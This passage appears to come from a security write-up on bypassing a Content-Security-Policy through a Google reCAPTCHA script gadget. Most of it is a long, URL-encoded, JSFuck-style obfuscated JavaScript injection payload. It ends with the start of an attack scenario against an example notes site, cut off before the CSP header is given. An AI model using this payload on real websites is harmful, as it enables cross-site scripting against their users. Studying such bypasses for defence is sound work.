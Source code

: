 5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%28%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%29%28%29%3b%28%27)

resulting with the following code: 

![codeinjection.png](codeinjection.png)

## Attack scenario
Suppose we have a website `https://xyz.example.com` with **creating notes** as a major functionality. Each user has his own account and creates either public or private notes. The website offers set of `scripts`, hosted on their website, which users can attach into their notes (for example animated winter theme). 
At the same time, the website `https://xyz.example.com` **ensures** that the **user data is safe** and that no `XSS Injection` can be done on their website. But unluckily the website uses `Google reCAPTCHA` tool as a defense against bots. The header `Content-Security-Policy` intended to prevent from `XSS` is set to:
